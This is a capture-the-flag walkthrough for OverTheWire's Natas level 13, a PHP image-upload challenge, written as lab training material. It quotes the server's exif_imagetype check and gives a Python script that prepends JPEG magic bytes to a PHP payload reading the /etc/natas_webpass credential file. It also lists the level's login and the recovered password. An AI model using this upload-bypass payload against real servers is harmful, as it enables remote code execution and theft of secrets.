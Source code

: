 Level #13 go to URL and find natas14 user password

- URL: http://natas13.natas.labs.overthewire.org/
- User: natas13
- Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

Useful reads for this chanllenge:
- [pathinfo()](https://www.php.net/manual/es/function.pathinfo.php)
- [$_FILES](https://oregoom.com/php/files/)
- [move_uploaded_files()](https://www.php.net/manual/en/function.move-uploaded-file.php)
- [file upload vulnerabilities](https://www.prplbx.com/resources/blog/exploiting-file-upload-vulnerabilities/)
- [postman file upload](https://blog.filestack.com/api/step-step-guide-postman-upload-file/)

After navigating to URL an html page with a form with 4 inputs (2 type=hidden,1 type=file and 1 type=submit) and an anchor element with the text "View sourcecode" is loaded this time the page warns that only image files are accepted.  
Clicking on the anchor elements redirects to the source code of the php script being run by server. The code that was not modified includes the functions:
- genRandomString
- makeRandomPath
- makeRandomPathFromFilename
  
The only code modified is in the following code

```PHP
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    //This is the code that checks file uploaded is an image
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
```

The only thing enforcing that file uploaded is an image is the `exif_imagetype()` function, reading it's [documentation](https://www.php.net/manual/es/function.exif-imagetype.php) found out that this function works by "reding the first bytes of an image and confirming it's signature", but how many bytes does it read?

By searching found out [how to determine a file is a jpeg by reading it's bytes](https://coderanch.com/t/636057/java/figure-bytes-array-jpeg-file#:~:text=For%20JPEG%2C%20you%20need%20to,by%20the%20mime%20type%20for%20.) which is translatable to having the following bytes in a file xFF\xD8\xFF.

Made a python script to generate the fake php file.
```Python
jpeg_magic_numbers = b'\xFF\xD8\xFF'
 
with open("fake.php", "wb") as binary_file:
    binary_file.write(jpeg_magic_numbers)
    binary_file.write(bytes("<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>", "utf-8"))

```
  
Recreated the request with postman.
  
  
The password for natas14 is 
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

